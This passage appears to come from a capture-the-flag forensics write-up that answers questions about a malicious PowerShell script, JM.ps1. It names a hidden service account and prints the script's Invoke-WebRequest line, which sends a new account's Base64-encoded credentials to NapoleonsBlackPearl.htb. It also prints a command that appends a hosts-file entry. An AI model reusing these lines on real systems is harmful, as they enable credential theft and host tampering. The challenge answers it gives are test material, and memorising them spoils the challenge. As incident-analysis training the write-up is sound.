 2. The account name svc_netupd is consistent with the script’s naming scheme designed to blend in (service-like names).

3. The attacker also attempts to exfiltrate credentials by encoding the <username>|<password> pair in Base64 and calling:

```velocity
http://NapoleonsBlackPearl.htb/Exchange?data=<base64>
```
So not only was the account created, its credentials were likely sent to the attacker-controlled host.
**Conclusion:**
```velocity
svc_netupd
```
## Question 8: 
What domain name did the attacker use for credential exfiltration? (domain)

**Evidence & where it was found**

- The malicious PowerShell script JM.ps1 recovered from C:\Users\Werni\AppData\Local\JM.ps1 contains this line near the end of the script:
```velocity
Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
```
- This shows the script explicitly sends the newly created account and password (concatenated as <username>|<password> and then base64-encoded) to the /Exchange endpoint on the host NapoleonsBlackPearl.htb.
- Complementary evidence: an earlier command appended an entry to the hosts file:
```velocity
cmd /C "echo 10.129.242.110 NapoleonsBlackPearl.htb >> C:\Windows\System32\drivers\etc\hosts"
```
This maps NapoleonsBlackPearl.htb to 10.129.242.110, ensuring that the HTTP request in the script resolves to that IP.

**Interpretation**

- The attacker used NapoleonsBlackPearl.htb as the exfiltration domain. The script builds a base64-encoded payload containing the created username and password and sends it via HTTP to http://NapoleonsBlackPearl.htb/Exchange.
- Modifying the local hosts file to point that domain to 10.129.242.110 ensures the request reaches the intended infrastructure even if DNS would not resolve the name normally — a common tactic when using internal lab or private infrastructure.
- This pattern (local hosts mapping + HTTP exfiltration) indicates the attacker wanted reliable delivery of credentials to their collection server and likely used that server to harvest credentials and coordinate further activity.

**Conclusion:**
```velocity
NapoleonsBlackPearl.htb
```
## Question 9: 
What password did the attacker's script generate for the newly created user? (string)
